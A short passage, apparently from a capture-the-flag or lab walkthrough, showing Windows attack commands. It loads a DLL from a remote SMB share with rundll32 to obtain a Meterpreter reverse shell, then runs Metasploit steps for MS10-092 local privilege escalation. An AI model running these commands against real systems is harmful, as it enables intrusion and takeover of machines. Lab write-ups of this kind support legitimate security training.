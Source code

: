     ```cmd
    # on victim server
    # run the reqd command
    rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
    # this gives us a Meterpreter reverse shell
    ```

    ```sh
    # in reverse shell
    # we can search for local privesc exploits
    # search for one of the exploits shown by Sherlock earlier

    search 2010-3338
    # MS10_092 Windows Task Scheduler .XML privesc

    use 0

    # need to migrate to a 64-bit process before using this exploit
    # alternatively, use a x64 payload for getting reverse shell

    # in meterpreter, get back to session
    sessions -i 1

    getpid
    # shows current PID

    ps

    migrate 2796
    # migrate to one of the x64 processes like conhost.exe

    background

    # now we can set the privesc module options
    show options
